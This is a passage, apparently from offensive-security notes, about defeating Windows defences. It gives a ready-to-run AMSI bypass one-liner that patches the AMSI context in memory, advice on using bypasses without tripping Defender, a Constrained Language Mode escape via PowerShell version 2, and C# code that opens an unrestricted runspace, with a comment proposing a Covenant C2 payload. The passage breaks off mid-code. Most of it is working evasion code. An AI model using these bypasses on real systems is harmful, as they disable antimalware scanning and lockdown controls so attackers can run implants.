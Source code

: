 ```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

> **Too many AMSI bypasses can force Defender to flag every binary or script as malicious regardless if its true or not! Bypasses should be applied when a script, binary or command is of suspicious nature to Defender and AMSI.**

#### PowerShell CLM Bypass

Constrained Language Mode can be bypassed using various methods. One very well known method is use check for PowerShell version 2 which does not incorporate security boundaries and therefore is not affected by AMSI or CLM and other such features.

```powershell
PS C:\Users\user> powershell -ver 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\user> "AmsiUtils"
AmsiUtils
```

> When AppLocker is enforcing whitelisting rules against PowerShell scripts, ConstrainedLanguageMode is enabled as well.

The current PowerShell language mode can also be viewed using the following command:

```powershell
PS C:\Users\user> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

A custom runspace can also be used to create a PowerShell session such as using the example code:

```csharp
using System;
using System.Management.Automation.Runspaces;
using System.Management.Automation;

namespace PSLangBypass
{
    class LangBypass
    {
        static void Main(string[] args)
        {
            // Creating the runspace and opening it
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            
            // Getting the LanguageMode of current session and saving to a file
	    // This should be possible to replace with a powershell b64 encoded grunt if using Covenant i.e
            String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";
            
            // Creating powershell object
            PowerShell ps = PowerShell.Create();

            // Initialising the runspace
            ps.Runspace = rs;

            // Running the command above
            ps.AddScript(cmd);
            ps.Invoke();

```